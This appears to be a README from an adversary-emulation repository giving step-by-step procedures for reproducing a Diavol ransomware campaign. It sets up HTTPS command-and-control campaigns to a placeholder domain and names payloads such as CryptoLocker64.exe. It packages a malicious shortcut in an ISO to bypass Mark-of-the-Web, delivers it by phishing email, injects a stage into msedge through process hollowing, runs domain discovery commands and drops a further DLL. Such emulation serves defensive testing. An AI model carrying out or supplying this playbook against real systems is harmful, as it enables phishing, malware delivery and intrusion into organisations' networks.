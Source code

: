 ### Diavol Stage 3
1. Create a new campaign `DiavolStage3` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage3
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `uvvfvnnswte.dll`
6. Upload the `uvvfvnnswte.dll` to the VFS under VFS:/shared/threats/Diavol

### Diavol Stage 4
1. Create a new campaign `DiavolStage4` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage4
3. Launch the Campaign
4. Download payload in EXE.
5. Save the EXE as `CryptoLocker64.exe`
6. Upload the `CryptoLocker64.exe` to the VFS under VFS:/shared/threats/Diavol

## Manual Adversary Emulation
This is a multi-stage attack leveraging multiple payloads and execution that perform different TTPs. Manual emulation steps are below.

### Diavol Stage 0
1. Start a campaign, download the DLL with entry point of `BasicScore` and save as `ShareFiles.dll` 
2. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system.
3. Put the SCYTHE DLL in the Folder2Iso of the working directory.
4. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
5. Open a Windows command prompt and cd to the working directory.
6. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it.
7. Zip the ISO and call it `new-documents-2005.zip`
8. Upload the zip file to Microsoft OneDrive and copy the link.
9. Send a phishing email with the link to the Microsoft OneDrive zip file. 
10. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.
11. Load the process hollowing module: ```loader --load scythe.phollowing```
12. Inject DiavolStage1 into msedge: ```scythe.phollowing --src VFS:/shared/threats/Diavol/DiavolStage1.exe --target "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"```
13. Shutdown Diavol Stage 0: ```controller --shutdown```

### Diavol Stage 1
Manual execution of discovery activity started 14 minutes after initial access:
```
loader --load run
run net group /domain
run net group /domain "Domain Admins"
run net group "Domain Computers" /domain
run net localgroup administrators
run net view /all
run nltest /domain_trusts /all_trusts
```
59 minutes after discovery, another payload was dropped and executed: 
```
delay --time 6000
loader --load downloader
downloader --src "VFS:/shared/threats/Diavol/tfpkuengdlu.dll" --dest "%USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll"
```